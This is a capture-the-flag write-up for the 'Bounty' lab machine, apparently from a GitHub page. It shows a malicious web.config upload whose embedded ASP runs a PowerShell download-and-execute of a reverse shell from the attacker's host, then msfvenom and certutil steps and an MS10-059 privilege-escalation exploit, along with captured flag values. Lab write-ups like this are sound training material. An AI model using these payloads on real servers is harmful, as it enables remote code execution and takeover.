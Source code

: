 # Bounty

IP: `10.10.10.93`

## Enumerattion

Only port 80 is open according to nmap. It is running on mirosoft IIS 7.5.

There's also an interesting file at the path `http://10.10.10.93/transfer.aspx` where we can upload files.

Trying to upload a random `.txt` file didn't work however, so it seems like the options are rather limited.

Trying out a few file formats, we find that uploading files with an extension of `.jpg` is allowed.

And with gobuster, we see that the path `http://10.10.10.93/uploadedfiles/` is where our uploaded files will be at.

Our first image path is `http://10.10.10.93/uploadedfiles/482732.jpg` and it returns our image.

interestingly enough, after a few minutes the file is garbled up and unviewable. This might be something that the garbage collection for the web app is cleaning up files.

Additionally, we can also upload `.config` files, so we can upload something like `web.config` and make it run `asp` code for us.


So we use the following web.config code:

```asp
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set objShell = CreateObject("WScript.Shell")
Set cmd = objShell.Exec("cmd /c powershell -c IEX (New-Object Net.WebClient).downloadstring('http://10.10.14.27/mini-reverse.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

while serving a powerscript reverse shell file on 80 and a listerner on 443 and we get back a reverse shell as `bounty\merlin`

user.txt: `e29ad89891462e0b09741e3082f44a2f`

## Foothold

We upload a shell to `C:\Users\merlin\Desktop` and execute that to get another shell this time with more output

```cmd
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.27 LPORT=5555 -f exe > shell.exe
```

```cmd
certutil.exe -urlcache -split -f "http://10.10.14.27/shell.exe" C:\Users\merlin\Desktop\shell.exe
```

## Priv esc

We see that ms10-059 is available.

```cmd
certutil.exe -urlcache -split -f "http://10.10.14.27/MS10-059.exe" C:\Users\merlin\Desktop\MS10-059.exe
```

```cmd
C:\Users\merlin\Desktop>MS10-059.exe 10.10.14.27 6666
```

and listening on port `6666`, we get back a root shell.

root.txt: `c837f7b699feef5475a0c079f9d4f5ea`
